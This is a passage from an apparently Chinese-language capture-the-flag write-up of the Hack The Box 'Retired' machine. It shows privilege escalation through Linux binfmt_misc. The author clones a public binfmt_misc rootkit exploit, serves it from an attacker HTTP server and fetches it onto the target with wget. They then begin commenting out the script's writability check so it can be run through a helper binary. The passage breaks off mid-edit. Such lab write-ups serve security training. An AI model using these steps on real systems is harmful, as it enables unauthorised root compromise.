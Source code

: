 查看寄存器文件，我们看到它只对 root 用户的所有者是可写的:

```
dev@retired:~/emuemu$ ls -ls /proc/sys/fs/binfmt_misc/register
0 --w------- 1 root root 0 Jun 24 05:11 /proc/sys/fs/binfmt_misc/register
```

这里有一个漏洞【HackTricks 向我们指出:

```
┌──(root㉿kali)-[~/htb/retired]
└─# git clone https://github.com/toffan/binfmt_misc.git
Cloning into 'binfmt_misc'...
remote: Enumerating objects: 42, done.
remote: Total 42 (delta 0), reused 0 (delta 0), pack-reused 42
Receiving objects: 100% (42/42), 17.83 KiB | 570.00 KiB/s, done.
Resolving deltas: 100% (20/20), done.

┌──(root㉿kali)-[~/htb/retired/binfmt_misc]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

把它拉到盒子旁边，运行它:

```
dev@retired:~$ wget http://10.10.14.198/binfmt_rootkit
--2022-06-25 16:45:44--  http://10.10.14.198/binfmt_rootkit
Connecting to 10.10.14.198:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2048 (2.0K) [application/octet-stream]
Saving to: ‘binfmt_rootkit’
binfmt_rootkit     100%[===========>]   2.00K  --.-KB/s    in 0s
2022-06-25 16:45:44 (350 MB/s) - ‘binfmt_rootkit’ saved [2048/2048]

dev@retired:~$ chmod +x binfmt_rootkit 

dev@retired:~$ ./binfmt_rootkit
Error: /proc/sys/fs/binfmt_misc/register is not writeable
```

我们看到的问题是，只有 root 拥有对寄存器文件的写访问权限。回到 reg_helper 二进制文件，我们看到它为我们写入了寄存器文件。我们只需要稍微改变利用方式:

```
dev@retired:~$ cp binfmt_rootkit binfmt_rootkit_pencer
dev@retired:~$ nano binfmt_rootkit_pencer
```

首先，我们可以注释掉该检查，以查看寄存器文件是否可写:

```
EOF
    exit 1
}

#function not_writeable()
#{
#       test ! -w "$mountpoint/register"
#}
```
